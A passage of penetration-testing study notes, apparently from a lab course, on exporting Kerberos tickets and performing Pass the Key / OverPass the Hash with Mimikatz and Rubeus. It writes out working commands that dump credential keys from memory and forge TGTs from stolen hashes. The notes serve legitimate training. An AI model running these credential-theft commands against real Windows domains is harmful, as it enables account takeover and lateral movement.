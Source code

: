 **Note:** At the time of writing, using `Mimikatz version 2.2.0 20220919`, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. **Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption**. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in Base64 format.

## Rubeus
- We can also export tickets using **`Rubeus` and the option `dump`.**
- This option can be used to **dump all tickets** (if running as a local administrator). 
- `Rubeus dump`, instead of giving us a file, **will print the ticket encoded in Base64 format**. **We are adding the option `/nowrap` for easier copy-paste.**

- Rubeus - Export tickets:
	- `Rubeus.exe dump /nowrap`
	- ![[Pasted image 20250703073232.png]]


# Pass the Key aka. OverPass the Hash - Forging Tickets (TGT)
---
- The traditional `Pass the Hash` (`PtH`) technique involves reusing an NTLM password hash that doesn't touch Kerberos.
- The `Pass the Key` aka. **`OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket Granting Ticket` (`TGT`).**
- To forge our tickets, **we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`.** 
- This module will **enumerate all key types** present for the Kerberos package.

## Mimikatz - Extract Kerberos keys
- `privilege::debug`
- `sekurlsa::ekeys`
	- ![[Pasted image 20250703074336.png]]
- Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, w**e can perform the OverPass the Hash aka. Pass the Key attack** using `Mimikatz` and `Rubeus`.

## Mimikatz - Pass the Key aka. OverPass the Hash
- `privilege::debug`
- `sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f`
- This will create a new `cmd.exe` window that **we can use to request access to any service we want in the ==context of the target user.==**


## Rubeus - Pass the Key aka. OverPass the Hash
- To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`.

- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`
- ![[Pasted image 20250703074631.png]]
- **Note:** Mimikatz requires a**dministrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.**
